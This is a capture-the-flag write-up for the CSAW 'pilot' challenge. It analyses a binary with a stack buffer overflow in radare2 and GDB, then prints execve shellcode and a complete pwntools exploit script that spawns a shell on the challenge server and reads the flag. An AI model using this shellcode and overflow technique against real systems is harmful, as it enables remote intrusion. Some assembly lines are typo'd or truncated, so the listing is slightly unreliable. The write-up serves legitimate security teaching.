 # Description
The pilot challenge was part of the pwn category, there was a binary available to download and the only
information we got was this:
```
Can I take your order?

nc pwn.chal.csaw.io 8464
```

# Running the binary
First of all we will run the binary to check if there is some sort for information that can help us to
discover the path to follow, after running the binary we can see a series of outputs and one line asking
for an input from the user, the location output seems interesting since it looks like it's some sort of
memory leak, we entered a random letter on the command input and nothing happened.

```
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7ffe61dfd4a0
 [*]Command:a
 [*]There are no commands....
 [*]Mission Failed....
```
We executed the binary again but this time we entered more data in the command input and this time we got
a segmentation fault, we need to find out what is causing this and if it's exploitable.
```
 ./pilot.bin 
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7ffef4406230
 [*]Command:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 Segmentation fault
```
# Binary Analysis
First of all lets check what kind of protection this binary has and other stuff in radare2 ...

```
[0x004008b0]> iI
arch     x86
binsz    8616
bintype  elf
bits     64
canary   false
class    ELF64
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
lang     cxx
linenum  false
lsyms    false
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   false
relro    partial
rpath    NONE
static   false
stripped true
subsys   linux
va       true
```

We look if some  security features like nx, va and relro are enabled since that will limit how we can
exploit this binary, we can also analyze the binary to identify functions, instructions and other useful
things with radare.

```
[0x004008b0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
```

We can get the list of functions with the command **afl**:
```
[0x004008b0]> afl
0x004007c8    3 26           sub.__gmon_start___248_7c8
0x00400800    2 16   -> 32   sym.imp.setvbuf
0x00400810    2 16   -> 48   sub._ZNSt8ios_base4InitC1Ev_32_810
0x00400820    2 16   -> 48   sym.imp.read
0x00400830    2 16   -> 48   sym.imp.__libc_start_main
0x00400840    2 16   -> 48   sym.imp.__cxa_atexit
0x00400850    2 16   -> 48   sub._ZNSt8ios_base4InitD1Ev_64_850
0x00400860    2 16   -> 48   sub._ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc_72_860
0x00400870    2 16   -> 48   sub._ZNSolsEPKv_80_870
0x00400880    2 16   -> 48   sub._ZNSolsEPFRSoS_E_88_880
0x00400890    2 16   -> 48   sub._ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6__96_890
0x004008a0    1 16           sub.__gmon_start___248_8a0
0x004008b0    1 41           entry0
0x004008e0    4 50   -> 41   fcn.004008e0
0x004009a6    4 400          main
0x00400b36    4 62           sub.std::ios_base::Init.Init___b3
```
The main function can be one of our main focus points, we can go to the main function with the command
**s main** and disassemble it with the command **pdf**, now it's time to find our bug and possible 
vulnerability.

```
[0x004008b0]> s main 
[0x004009a6]> pdf
┌ (fcn) main 400
│   main ();
│           ; var int local_20h @ rbp-0x20
│              ; DATA XREF from 0x004008cd (entry0)
│           0x004009a6      55             push rbp
│           0x004009a7      4889e5         mov rbp, rsp
```
Since we know that the program crashes when we introduce a big string after the command output we will
try to find that in the assembly code, we can verify that the read function is used to capture our
input.
![radare2](imgs/r2-read-add.png)

# Debugging the binary
With what we have at the moment we can set a breakpoint after the read function has ended to take
a quick look at the stack and follow the execution code and verify if we can prevent the segmentation fault
in order to execute our own code to take over the binary.

We selected the address 0x400ae5 as a good location to set a breakpoint, since this is right before the
read function returns.
```
 0x00400ae0      e83bfdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
 0x00400ae5      4883f804       cmp rax, 
```
First of all we need to know what the strange number in the Location output is all about, opening the file
in GDB with ASLR off we get the following location **0x7fffffffe340**.

```
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7fffffffe340
```

Inspecting our registers it seems this is where the RSP register is pointing to, this is starting to look
like a standard BOF exploit, at address 0x00400ae0 the function read (fd, void \*buf, size_t) is called with
size_t of 0x40 that means 64 chars and if we look carefully RBP sits at address 0x7fffffffe360 so in theory
we can overwrite RBP and RET address in the stack since there is just 32 bytes of difference and we have a
buffer that can hold up to 64 chars.

![bp-0x400ae5](imgs/bp-0x400ae5.png)

Since there is no NX protection to prevent the execution of code in the stack we can inject our shellcode
directly to the stack and modify the ret address in order to jump there, since we just want to spawn a shell
in the remote server we will use the following code in ASM to generate our shellcode that is just sysexecv("/bin/sh",0,0):

```asm
bits 64

push 59
pop rax
cdq
push rdx
pop rsi
mov rcx, '/bin//sh'
push rdx
push rcx
push rsp
pop rdi
syscal
```

We can assemble the instructions with nasm:
 nasm -fbin shellcode.nasm -o sc.bin

And generate a python friendly shellcode with hexdump:
 hexdump -v -e '"\\x" 1/1 "%02X" ' sc.bin
 \x6A\x3B\x58\x99\x52\x5E\x48\xB9\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x52\x51\x54\x5F\x0F\x05

Since we need to overwrite the return address at 0x7fffffffe368 we need an offset of 40 bytes, our shellcode
length is 22 bytes we need 18 bytes to complete our offset we will just nop instructions \x90 to fill the
gap.

We will use [pwntools](https://docs.pwntools.com/en/stable/) since it will help us to reduce some lines of
code and provide some cool functionalities, this is our final script that will deliver our exploit.

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8464)
buf = ''
buf += '\x6A\x3B\x58\x99\x52\x5E\x48\xB9'
buf += '\x2F\x62\x69\x6E\x2F\x2F\x73\x68'
buf += '\x52\x51\x54\x5F\x0F\x05'
buf += '\x90' * 18
print "[+] Getting memory leak\n"
r.recvline_contains("Good Luck Pilot!")
memleak = r.recvline()
buf += p64(int(memleak[12:26:],16))
print "[+] Sending payload\n"
r.sendline(buf)
print "[+] Entering interactive mode\n"
r.interactive()
```
# Getting the flag
```
foobar@quant:~/h/c/csaw$ python exploit.py 
[+] Opening connection to pwn.chal.csaw.io on port 8464: Done
[+] Getting memory leak

[+] Sending payload

[+] Entering interactive mode

[*] Switching to interactive mode
[*]Command:$ ls
flag
pilot
$ cat flag
flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}
```
